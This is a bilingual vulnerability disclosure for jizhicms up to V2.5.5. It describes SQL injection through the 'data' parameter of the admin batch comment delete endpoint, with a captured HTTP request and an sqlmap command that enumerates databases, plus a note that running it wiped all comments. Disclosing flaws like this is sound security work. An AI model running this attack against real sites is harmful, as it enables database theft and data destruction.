






# jizhicms<=V2.5.5-deleteAll.html-data parameter-SQL injection

## Supplier

https://www.jizhicms.cn/

## Description

Ultimate CMS aims to help netizens solve the troubles of using Ultimate CMS and the difficulties encountered in daily website building. SQL injection exists

## POC

在互动管理-评论列表-批量删除评论

In Interactive Management - Comment List - Batch Delete Comments

点击删除，然后抓包，通过data参数进行sql注入

Click delete, then capture the packet and inject SQL through the data parameter



```
POST /index.php/admins/Comment/deleteAll.html HTTP/1.1
Host: 192.168.24.65:1002
Content-Length: 8
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.24.65:1002
Referer: http://192.168.24.65:1002/index.php/admins/Comment/commentlist.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPCMF548bfec3975944bdebbbf4113b3e44d3member_uid=1; PHPCMF548bfec3975944bdebbbf4113b3e44d3member_cookie=af9cad3bdafee2d64cb9869846ad27b3; PHPSESSID=71ui30k1t81pk650ath51bu9bh
Connection: close

data=573
```

SQLmap

```
python sqlmap.py -r sql.txt -p data --batch --risk 3 --dbs
```



代码分析

code analysis

参数直接拼接并且没加任何过滤

Parameters are directly concatenated without any filtering added


我们追溯到findAll或者delete方法发现都存在大量比较严重的sql注入，其中delete函数的sql注入可以将所有的评论全部删除，危害极大

We traced back to the findAll or delete methods and found that there were a large number of serious SQL injections, among which the SQL injection of the delete function can delete all comments, which is extremely harmful

**findAll**



**delete**



发现通过sqlmap跑完该sql注入，数据全部都被删除



## version

Vulnerabilities affect versions

jizhicms<=V2.5.5